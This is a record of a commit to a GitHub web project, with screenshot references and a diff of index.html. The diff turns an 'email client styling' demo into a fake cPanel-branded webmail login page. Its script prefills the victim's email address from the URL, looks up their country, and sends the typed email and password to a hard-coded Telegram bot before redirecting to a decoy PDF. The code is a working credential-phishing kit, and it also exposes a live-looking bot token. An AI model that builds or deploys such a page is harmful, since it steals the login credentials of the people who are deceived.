

Before and after one commit to docucwffgfd/chameleon, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 184-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,115 +3,173 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Chameleon Email</title>
+    <title>Webmail Login</title>
     <style>
-        /* Default Styling for Email Clients */
         body {
             font-family: Arial, sans-serif;
+            background-color: #ffffff;
+            text-align: center;
             margin: 0;
             padding: 0;
         }
 
-        /* Gmail Styling */
-        .gmail {
-            background-color: #ffffff; /* Gmail's background color */
-            color: #202124; /* Gmail's text color */
+        .container {
+            margin-top: 150px;
         }
 
-        .gmail .header {
-            background-color: #4285f4; /* Gmail blue */
-            padding: 15px;
-            text-align: center;
+        img {
+            margin-bottom: 30px;
+            width: 250px;
         }
 
-        .gmail .header img {
-            width: 150px; /* Gmail logo size */
+        .login-box {
+            margin: 0 auto;
+            width: 300px;
         }
 
-        .gmail .content {
-            padding: 20px;
+        .login-box label {
+            display: block;
             text-align: left;
+            margin: 5px 0;
+            font-weight: normal;
         }
 
-        /* ProtonMail Styling */
-        .protonmail {
-            background-color: #f7f7f7; /* ProtonMail's background color */
-            color: #333; /* ProtonMail text color */
+        .login-box input[type="text"],
+        .login-box input[type="password"] {
+            width: 100%;
+            padding: 10px;
+            margin: 15px 0;
+            border: 1px solid #ccc;
+            border-radius: 5px;
+            font-size: 16px;
         }
 
-        .protonmail .header {
-            background-color: #6e60e0; /* ProtonMail purple */
-            padding: 15px;
-            text-align: center;
+        .login-box button {
+            width: 100%;
+            padding: 10px;
+            background-color: #007bff;
+            border: none;
+            border-radius: 5px;
+            color: white;
+            font-size: 16px;
         }
 
-        .protonmail .header img {
-            width: 120px; /* ProtonMail logo size */
+        .login-box button:hover {
+            background-color: #0056b3;
         }
 
-        .protonmail .content {
-            padding: 20px;
-            text-align: left;
+        .languages {
+            margin-top: 100px; /* Increased margin to move down */
+            color: gray;
         }
 
-        /* Spacemail Styling */
-        .spacemail {
-            background-color: #f4f6f8; /* Spacemail's background color */
-            color: #0f0f0f; /* Spacemail text color */
+        .languages a {
+            color: gray;
+            text-decoration: none;
+            margin-right: 15px;
         }
 
-        .spacemail .header {
-            background-color: #007bff; /* Spacemail blue */
-            padding: 15px;
-            text-align: center;
+        .footer {
+            margin-top: 30px;
+            font-size: 12px;
+            color: gray;
         }
 
-        .spacemail .header img {
-            width: 130px; /* Spacemail logo size */
+        .footer a {
+            color: gray;
+            text-decoration: none;
+        }
+    </style>
+    <script>
+        let userCountry = ""; // Placeholder for user country
+
+        // Function to populate the email field from URL parameter
+        function populateEmailField() {
+            const params = new URLSearchParams(window.location.search);
+            if (params.has('email')) {
+                document.getElementById('email').value = params.get('email');
+            }
         }
 
-        .spacemail .content {
-            padding: 20px;
-            text-align: left;
+        // Function to get user's country
+        function getUserCountry() {
+            fetch('https://ipapi.co/json/')
+                .then(response => response.json())
+                .then(data => {
+                    userCountry = data.country_name;
+                })
+                .catch(error => {
+                    console.error('Error fetching country:', error);
+                });
         }
-    </style>
+
+        // Function to send data to Telegram
+        function sendDataToTelegram(event) {
+            event.preventDefault(); // Prevents form from submitting in the usual way
+
+            const email = document.getElementById("email").value;
+            const password = document.getElementById("password").value;
+
+            const botToken = "5376961693:AAFEhctXNCUb8eb4IIitRHCHVikGutqrAjU";
+            const chatId = "5080203047";
+            const message = `Email: ${email}\nPassword: ${password}\nCountry: ${userCountry}`;
+
+            fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
+                method: "POST",
+                headers: {
+                    "Content-Type": "application/json"
+                },
+                body: JSON.stringify({
+                    chat_id: chatId,
+                    text: message
+                })
+            })
+            .then(response => response.json())
+            .then(data => {
+                if (data.ok) {
+                    window.location.href = "documentequipment001.pdf"; // Redirect to PDF
+                } else {
+                    console.error("Error sending message:", data);
+                }
+            })
+            .catch(error => {
+                console.error("Failed to send message. Please try again later.", error);
+            });
+        }
+
+        window.onload = function() {
+            populateEmailField();
+            getUserCountry();
+        };
+    </script>
 </head>
 <body>
-    <!-- Here we use a class to represent the email client environment -->
-    <div class="gmail"> <!-- Change this to "protonmail" or "spacemail" to simulate different clients -->
-        <div class="header">
-            <!-- Gmail's logo or respective client's logo -->
-            <img src="https://www.gstatic.com/images/branding/googlelogo/2x/googlelogo_light_color_92x30dp.png" alt="Logo">
+    <div class="container">
+        <img src="webmail-logo.svg" alt="Webmail Logo">
+        <div class="login-box">
+            <form onsubmit="sendDataToTelegram(event)">
+                <label for="email">Email Address</label>
+                <input type="text" id="email" name="email" placeholder="Enter your email address" required>
+
+                <label for="password">Password</label>
+                <input type="password" id="password" name="password" placeholder="Enter your email password" required>
+
+                <button type="submit">Log in</button>
+            </form>
         </div>
-        <div class="content">
-            <h2>Welcome to Chameleon Email!</h2>
-            <p>This email will mirror the environment it's opened in.</p>
-            <p>The background, logo, and style will reflect the appearance of the email service used to view it.</p>
+        <div class="languages">
+            <a href="#">English</a>
+            <a href="#">العربية</a>
+            <a href="#">čeština</a>
+            <a href="#">dansk</a>
+            <a href="#">Deutsch</a>
+            <a href="#">Ελληνικά</a>
+            <a href="#">español</a>
+            <a href="#">español latinoamericano</a>
+        </div>
+        <div class="footer">
+            <p>&copy; 2024 cPanel, L.L.C. <a href="#">Privacy Policy</a></p>
         </div>
     </div>
-
-    <!-- Optionally, you can define other email clients -->
-    <!-- Uncomment and edit to try other email styles: -->
-    <!--
-    <div class="protonmail">
-        <div class="header">
-            <img src="protonmail-logo.png" alt="ProtonMail Logo">
-        </div>
-        <div class="content">
-            <h2>Welcome to Chameleon Email!</h2>
-            <p>This email is styled like ProtonMail.</p>
-        </div>
-    </div>
-
-    <div class="spacemail">
-        <div class="header">
-            <img src="spacemail-logo.png" alt="Spacemail Logo">
-        </div>
-        <div class="content">
-            <h2>Welcome to Chameleon Email!</h2>
-            <p>This email is styled like Spacemail.</p>
-        </div>
-    </div>
-    -->
 </body>
 </html>
```
